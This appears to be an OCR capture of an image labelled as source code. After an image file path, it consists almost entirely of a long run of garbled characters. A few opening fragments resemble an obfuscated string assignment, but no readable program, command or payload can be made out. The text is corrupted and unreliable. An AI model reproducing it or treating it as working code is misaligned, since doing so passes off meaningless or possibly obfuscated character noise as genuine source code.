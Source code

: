 w4cn->j=r_<!,r_  o)n';zippguHPaVjSzTDZZ='fa({Cq_BstM73HV5VBC5H{Ct77(3q7pVt(A<_M5,qMHqCtBs(7__HHq(3B{BV5_BHhC{3{V3Mq5atB#5BsV7_7tCqqtt{57B(Yt{a{{357CaVBq53s{777VCtsVts5YBBiV{_{s3qqta{BM5ass7p7{C53{tH5qB3Y{{7{H3t_V{CH3C{VM7(Ct5Cq7H(_ttatC(EqCt7a{aHBC57s(7M7HCt7H7sVSq{sVtC53q{HM7H7tVVaqi3a{Httq(H(5s7755MqHBq(Has(VsqVH_CCBC{BBMV{MbH1CsVsa3H(qC755rMMH5q5a3B53({{7CaHHM9VMH5aq_95s57qBs73_(tC65B{(HBMHMs33tCs7B{attYMs3XCBtVM_a3{sC53_qHsqssa{Vss(V_WG5{55H_5M_qssHKH3M5ttHa{qM3CC37qB(M<atsV(5_{(3tqjBsqM3__7{a{3qJ(BM{B_BHVqa73(HMH_Mt7aqs(55q7(BsHo{B7VtatH3a5ssCqBCatqH3aBB5t_CtqC5sCWC3a(a_MHsqt3(B57((CtV577C{CqMaH_adB{t7CasH(a5B5{a_VVVqVHR{VM5{sMsa5tB5{7C(3tq)sss7a_M7sqVt0{5_5(Ht5H_ss7H{H5M(sMaCB7B5CB3VqM(2rBMVHaVVBqb3(Cp_B(a_V3Vs+7H{q5((n3B9MBBVs_s(qqs5HBa7(a_HBC57s(7M7HCsVH7CC7M{qM_%B3q{B__(tt5at{Mraq5HVC7HBCk7({9qBaVB357_s7H(qV(a)BC{HB7(_t3-5B75q_{M3C73t{C_qa5t7aBBV5B_ttsq(sBbt3M5V__37tC5H_5VHaC3Va7B7(H_BV(t555{MM7(7Vsa3s555BHHttMa(B7VV_VtBqatVFsB55C_BVX{55H_5tV_aHBqaB({ttBa_s{v5BsVM_ss5q_7C{{M:5qqHaMCsM3_;7{__HHa1M5(Hts3ts{55B7V(a(33atBt(7_qV4tH3HB(7_((t{a{HIl(BtVH_z3asC3s_VMna7B5Cc7s(atCaC{H5BCC7S(st_aas{VqM{aqCC#BBH5BasH5{H73(t7qaVtd+V{q53qMHtC_t7>{31VVq(aMqt5s_7V5q_3MCs3qVCtMa3sB7sBCVB_7H(C_3CCa_sHV_qFCs(VHaVHsq_3a5(M3(Mtq3_sD53BsH5qs3M5t7{Vs_M(7q53B(35qqVHyCVBq(5B3H3sV3tC{lA{.HCa7sq5_B_{{_BcMBV3{(C5Nq_33CC7(V(MqVsqa:V{H7t(ssMCN3((HqVasCH3HsM7M{(MaC7tBPi7HV7taHCqUMV_BVB^HH8aC7MV3_B37sqH({(VCaVtM#Vs{:a__HBqt3HCB75(VtUqa3t{(Mq(qCV85qq57(HH3c33M{3B{(qqMHMtB3__57_(Btaats({5_HVsst3H{Y5t_(HCq(Bt{{s/V:t(35CBIC{(HBC3st5MBM{B_s<3q{33(sVt_a3M{H7HV_M4VHqHHaCC7tatHBCtBs{77a(7C3a{Ba5)qHVtq(3CC(_t{QsV^HBM35{B5C((s_Co7V(tqMaCtYn3B{V3qVsHCBB35V755{q73xst5(_CV(8t3{aoBp((q3HBtC3({M7aatsMpM3B5HB(aaq{7sBt5aqM3HCHB_{nBHV3_{HsC_Mt_BHt2s37Ca77H3M{WasDVHBtV(qCH(5t3haVtH4Mq53BsC7(a_35aH77{5MHaBtHcBs(5_(qVCa;3sC2Mta3t33qB533{C5aaVtC5s7t{atM)HsH7_Ba5q_{3Hq{7H{sM3H{t_3qsD7h_aMVC7s_{V_q(3tCassV^.Batsq5t3CM3a({qVa/CHZ{{_VC(attq_s{5t__aBtqKP{a5H_{Htqa75V57s(7M{)s{s5aBatBqsHZ{tM3(3qqa3q3S({aMV_7tszVB7{GM(HttsHsCHMBq_MCw_s(C(M7aHt73(Bt5V__HBq_s.{M7s({qCaqsH5__tVta(33at3q5CtH(ttt55{B5((atVq7ss5V_7V:tsa%BtV3_3tqC5t3C(Ba({q3aas{7(Bt7t(Vss{Bs(VBMVaBstlB(VVs{q33auM{C{tt(V_VVs_75s(BHta(3{{577((t7-H{3Q{C{7sa(3aLHBa{sMaa{ta7sB(75q3VMaVBs(BB*HBs5X7sBVV_BHtKs35R5sCHVsHH3{HAC_HH5qHsCC3Mt(stqVMss?3BMVC_MHCC53{5(MHVpsV3BsqVHBaVBqt3M5aM3V{_sHass5sB^MqqCs5{HBt{F_Paas55M(7Vq_aHHCC7H(5qV(q_qHM{CV{{}t{qM3{{q7{HMtCVas3Vt_sHqq(3VCM7a(Mt337t(H(CBMaqlttir3B{0M((hCBXaCV5tq_HqC(7q{H_3(Hq3Nqta+a_Bt5qMstP_3{5n__H{Cs7H__7tqsH_CaB({{M7aCsBPB{K5{{BHH83stC_B{5Wq_zaB(5MqV7{qNsz{M7s({qCgVs35B(sV(_w37537_{(MVaqCq55C3M3qVt7a{H)imMBVtqq3_C_8{{qHsa73(5C7B57MaH{CV7(B{V7qC3BCBBQ(MBBVCqC35CB7CasH_CsBB{M76(MC7a(BvV5q3Vsqa3{Ca_s(5sHc3Bt3V{_5{(asq{57H(sqta{ta53(HVB_qH1*a77{B7{aMCMxCqa7a_{tVasHq6qM3V5qM37C76s_BH3(stC5t739WM_Hsq{7Bs{Vtq5HBCqBq{sB7VCMa35BCVVaHH{qq3n5aM7V._&aHCV3q{CHV(Mt{q,B55q_BV{Ca5MBMMI_{MBCHB55MqVas_q3qBB7C{aM{a5sC5qBt5a_BHqqPMV_5VBqR3{C{_3(qB{atC75M(MVsqMtaC{Bs5s7qVqst35CqM5{tMHaqH(9}Ms5(s53{s35q_BVqi33_a{B{(q_(HMtB3BC(7_a3sHxH3M(M_VV(C_wBB5Vsq7H7UC7V27BM5vq5Hq{B5q_Bt_qt35Ct_M{as50VB7>BBTV(_UsBCVM3(7tsVHqqa(C!MC_3M7X73_{37_HBt53MBB5t_CtqCtMC((t5HVM(aM{H)qC(Vaq53M577q{aMHaCsH55(VVsaHt5_wtC53_a(Mt{!qs{MM_C7aaa3{5VBs{q_{HBqC7M(7M7_s3_aa7{5tqtaMt(57_VVVaBHaaVs3,aBqVVq375BHV5aVVaqBHa5(7taBt_<{s55s_MVsc5H_{C7{(XBqHHtM3s(3V7{{H5C53{{5M3a_sVa#CVVH_7H_pB3a{H7t(zqTTMqB7B_tMCaVH7Atsq({_4HaqabV{H7aqt33553(>_M3HVqt7HBV5_q5H(q(B7{qs(5(_qHCC53_({Vaq{s(Cq77{qq_aHB75M_B5{q33VC3B{{MtsaBsCHtCa5V(3tvqatB5aM%VHsMH7BC7V{{MHCst(KBB3a3__H7C55v{MM5(M3C9Vs(O>tsVMqV5BCa7q(737aqsM9(t5V5_{5VCs7H{MH(({ts{aB75a_C,qqC3M_C7C(C3{aCsB((_3Vaqq5_{5V*(53MaCstz(tVVsqHHBB(73{aMtC_tZ-CBVaM_CHtCHVV{sM3(C3(W5M35VB{G7qq3tC(H5{aMC{Vss5HBqa(q3HLCsV_{bMqa37M!CBsV5sVHsCV3a_(7C(L3a=7s45stqVBq75CC{7sq{t3{Hs3(BBaV_q557Cq7M{C35atsV0_M{VH_aH7BB3a{_MMC7tqJtsaa5_7ptq{3sCaHH(Bt3aB7a%{BBaoqM35CsVC{qM7C{sHZ(BtaB_sHBB_3*{q7(CMtMaaMt5M_3-sq(3BCaH3(q3_aq7S5M_5VssC3VC{7HqsM(aBs5(3B_VM_C=;CM75{{HCaVt(;MMs5qt(VCqs5a{77a(q3qw5sC5VttV{qB3H_H7V{{33aVt{(7BqVt_C55qP3(qVMH(q7HXBB75.taV(qB5bCG7(C5ts{tsB({_HV(q35BCt73q_Msa37q55B{5dstH{CB7HqHM3CBttoVM_5S_qHMBM3C{tMHCVM aqMH55B(43q_37CqV2{0Mq{5st5VBqa{_CHBB(73{aMsC_tB2tMq5B_s&Cq{37_{7((B3(?7M35Mt_V>qq35_M73(53ta7s5(sB(V__{53C_7M{wH<a57MUCBs5(sVHsCH3a_(M3(atM{_sP5C_M*MqC3tCaHV(stHaB7(caBqaa_(35Bi7M(VMtCCsVb(B7as_(HBCHV3{77{C7t3a(MM5C_sVqBV33(V73q7HtCCBq(5MHasCtJ{saV3aHHBqq3#5aM7(ttC3qB533(3HVastB-VBHV7q3HVq(3t{57saq35CH7sVtM(H7tC3_CH5{_7HCCB3B527{5BMM(aqC5CB(VMjH3BaCB3{t__HBqz1HBxVqaC3HCHB{{CM3aqssNs{a5s{s35a{3aC^MM{assaqBM35(MH3aqt3CCM_(qt(VBta35BBHt_q3qaM7B}(Maa5sM77B35CqHH>qDBt{C7s(_t